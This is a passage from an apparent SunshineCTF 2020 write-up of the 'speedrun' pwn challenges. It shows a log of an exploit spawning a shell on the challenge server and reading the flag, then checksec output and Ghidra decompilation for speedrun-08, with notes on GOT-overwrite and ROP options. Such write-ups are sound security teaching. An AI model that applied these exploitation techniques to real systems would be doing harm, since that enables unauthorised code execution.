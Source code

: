 ```bash
# ./exploit_07.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-07/chall_07'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to chal.2020.sunshinectf.org on port 30007: Done
[*] Switching to interactive mode
In the land of raw humanity$ id
uid=1000(chall_07) gid=1000(chall_07) groups=1000(chall_07)
$ ls -l
total 16
-rwxr-xr-x 1 root root     8440 Nov  7 07:49 chall_07
-rw-r----- 1 root chall_07   33 Nov  7 08:51 flag.txt
$ cat flag.txt
sun{sidewinder-a80d0be1840663c4}
```


## speedrun-08

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No canary--BOF, No RELRO--GOT overwrite, and more..., No PIE--Easy ROP, GOT overwrite.

### Decompile with Ghidra

```c
void main(void)
{
  undefined8 local_18;
  int local_c;
  
  __isoc99_scanf(&%d,&local_c);
  __isoc99_scanf(&%ld,&local_18);
  *(undefined8 *)(target + (long)local_c * 8) = local_18;
  puts("hi");
  return;
}

void win(void)
{
  system("/bin/sh");
  return;
}
```
